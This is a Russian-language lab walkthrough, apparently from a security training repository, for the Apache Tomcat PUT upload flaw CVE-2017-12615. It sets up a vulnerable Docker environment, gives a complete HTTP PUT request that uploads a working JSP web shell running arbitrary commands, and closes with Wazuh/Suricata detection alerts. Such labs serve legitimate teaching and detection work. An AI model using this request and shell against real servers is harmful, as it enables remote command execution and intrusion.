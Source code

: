 # CVE-2017-12615

Apache Tomcat — это комплект серверных программ от Apache Software Foundation, предназначенный для тестирования, отладки и исполнения веб-приложений на основе Java.

При запуске Apache Tomcat версий 7.0.0–7.0.79 в Windows с включенным методом HTTP PUT  можно загрузить файл JSP на сервер с помощью специально созданного запроса. При запросе этого файла будет выполняться код, содержащийся в нем.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose build 
docker compose up -d
```

После запуска под адресу http://ваш-ip:8080/ будет доступна стандартная страница Apache Tomcat

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Отправьте следующий запрос:

```
PUT /1.jsp/ HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 898


<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```

В данном запросе полезной нагрузкой является код, реализующий CMD Injection

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Теперь, обращаясь к созданному файлу 1.jsp мы можем выполнять произвольные команды на хосте:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
